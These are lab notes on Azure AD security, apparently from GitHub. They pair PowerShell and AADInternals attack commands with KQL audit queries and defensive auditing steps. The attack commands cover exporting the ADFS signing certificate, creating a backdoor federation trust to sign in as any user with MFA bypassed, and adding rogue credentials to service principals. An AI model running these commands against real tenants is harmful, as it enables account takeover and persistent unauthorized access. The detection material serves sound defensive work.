 # AzureAD Security 

Quick notes from lab on Azure AD security  

## Attack

### Export ADFS certificate
Export-AADIntADFSSigningCertificate -filename ADFSSigningCertificate.pfx  

#### More info 

$ADFS = Get-WmiObject -Namespace root/ADFS -Class SecurityTokenService  
$conn = $ADFS.ConfigurationDatabaseConnectionString  
$SQLclient = new-object System.Data.SqlClient.SqlConnection -ArgumentList $conn  
$SQLclient.Open()  
$SQLcmd = $SQLclient.CreateCommand()  
$SQLcmd.CommandText = "SELECT ServiceSettingsData from IdentityServerPolicy.ServiceSettings"  
$SQLreader = $SQLcmd.ExecuteReader()  
$SQLreader.Read() | Out-Null  
$settings=$SQLreader.GetTextReader(0).ReadToEnd()  
$SQLreader.Dispose()  
\[xml\]$xml=$settings  

### Adding a malicious federation trust
Get-AADIntAccessTokenForAADGraph -savetocache                                                                       
ConvertTo-AADIntBackdoor -domain maliciousdomain.com     
get-msoluser | select UserPrincipalName, ImmutableId  
Open-AADIntOffice365Portal -ImmutableID $id -UseBuiltInCertificate -ByPassMFA $true -Issuer ISSUER  

(AuditLogs | where OperationName =~ "Set domain authentication")  
(AuditLogs | where OperationName =~ "Set federation settings on domain" )  

## Adding credentials to a service principle 

### Certificate 
$cert = New-SelfSignedCertificate -dnsname some.domain.com -CertStoreLocation cert:\LocalMachine\My -Provider “Microsoft Enhanced RSA and AES Cryptographic Provider”  
$keyValue = [System.Convert]::ToBase64String($cert.GetRawCertData())   
$sp = get-azureadserviceprincipal -searchstring SEARCHSTRING  
New-AzureADServicePrincipalKeyCredential -objectid $sp.ObjectId -EndDate "01-01-2022 12:00:00" -StartDate "01-03-2021 14:12:00" -CustomKeyIdentifier "Test" -Type AsymmetricX509Cert -Usage Verify -Value $keyValue  
Connect-AzureAD  -Tenant TENANTID -ApplicationID APPID -CertificateThumbprint CERTTHUMBPRINT  

(AuditLogs | where OperationName =~ "Update service principal")
(AuditLogs | where OperationName =~ "Add service principal credentials")

### Password
New-AzureADServicePrincipalPasswordCredential -objectid $sp.ObjectId -EndDate "01-01-2030 12:00:00" -StartDate "04-04-2020 12:00:00"  -Value PASSWORD  

(AuditLogs | where OperationName =~ "Update service principal")
(AuditLogs | where OperationName =~ "Add service principal credentials")

### Create a new service principle 
Get-AzureADServicePrincipal -all $true | Where-Object{$_.KeyCredentials -ne $null}  
$sp = New-AzADServicePrincipal -DisplayName 'MicrosoftSyncShare'  

## Defence 

Install-module azureadpreview
Connect-AzureAD  

Install-module ExchangeOnlineManagement
Connect-ExchangeOnline

Install-module MSOnline
Connect-MsolService  

### Auditing federation trusts
Get-MsolDomain | Select * / Get-AzureADDomain | Select *  
Get-MsolFederationProperty (need to run this for each domain)  

### Auditing service principles
Get-AzureADServicePrincipal  
Get-AzureADServicePrincipal -all $true | Select *  
Get-AzureADServicePrincipal -all $true | Where-Object{$_.KeyCredentials -ne $null}  
Get-AzureADServicePrincipal -all $true | Where-Object{$_.PasswordCredentials -ne $null}  

### Sentinel connectors
AzureActiveDirectory  
SecurityEvents  
Office365  
Microsoft 365 Defender  

### Other useful commands
Get-AADIntLoginInformation -Domain domain.com  
Get-AzureADTenantDetail | Select *  

### CISA Sparrow
https://github.com/cisagov/Sparrow/blob/develop/Sparrow.ps1  
Invoke-WebRequest 'https://github.com/cisagov/Sparrow/raw/develop/Sparrow.ps1' -OutFile 'Sparrow.ps1' -UseBasicParsing  

### Crowdstrike CRT
https://github.com/CrowdStrike/CRT/blob/main/Get-CRTReport.ps1


